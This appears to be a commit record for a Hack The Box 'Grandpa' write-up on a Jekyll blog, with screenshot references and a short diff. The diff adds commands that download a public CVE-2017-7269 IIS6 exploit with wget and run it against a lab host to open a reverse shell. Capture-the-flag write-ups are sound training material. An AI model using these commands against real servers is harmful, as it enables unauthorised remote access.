

Before and after one commit to rootrce/root, a Jekyll site: the page built from _posts/Grandpa/2020-05-13-GrandPa.md, in a window 1280 px wide and 900 px high, scrolled down 4095 px. Shown: the whole window, without its empty margins (281-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
htb grandpa added

````diff
--- a/_posts/Grandpa/2020-05-13-GrandPa.md
+++ b/_posts/Grandpa/2020-05-13-GrandPa.md
@@ -145,8 +145,9 @@ More about the vulnerability:
 ```
 
 The working exploit:
-```
-https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
+```bash
+$ wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
+$ python iis6.py 10.10.10.14 80 10.10.14.14 4444
 ```
 
 
````
